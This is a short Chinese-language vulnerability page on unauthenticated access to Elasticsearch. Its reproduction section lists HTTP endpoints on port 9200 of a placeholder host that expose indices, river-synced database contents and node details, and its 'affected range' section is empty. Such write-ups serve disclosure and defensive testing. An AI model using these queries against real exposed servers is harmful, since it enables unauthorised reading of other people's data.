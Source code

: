 # Elasticsearch 未授权访问

> 原文：[http://book.iwonder.run/0day/Elasticsearch/1.html](http://book.iwonder.run/0day/Elasticsearch/1.html)

## 一、漏洞简介

> ElasticSearch 是一款 Java 编写的企业级搜索服务，启动此服务默认会开放 HTTP-9200 端口，可被非法操作数据。

## 二、影响范围

## 三、复现过程

安装了 river 之后可以同步多种数据库数据（包括关系型的 mysql、mongodb 等）。

[http://0-sec.org:9200/_cat/indices](http://0-sec.org:9200/_cat/indices) 里面的 indices 包含了 _river 一般就是安装了 river 了。 [http://0-sec.org:9200/_plugin/head/](http://0-sec.org:9200/_plugin/head/) web 管理界面
[http://0-sec.org:9200/_cat/indices](http://0-sec.org:9200/_cat/indices)
[http://0-sec.org:9200/_river/_search](http://0-sec.org:9200/_river/_search) 查看数据库敏感信息
[http://0-sec.org:9200/_nodes](http://0-sec.org:9200/_nodes) 查看节点数据

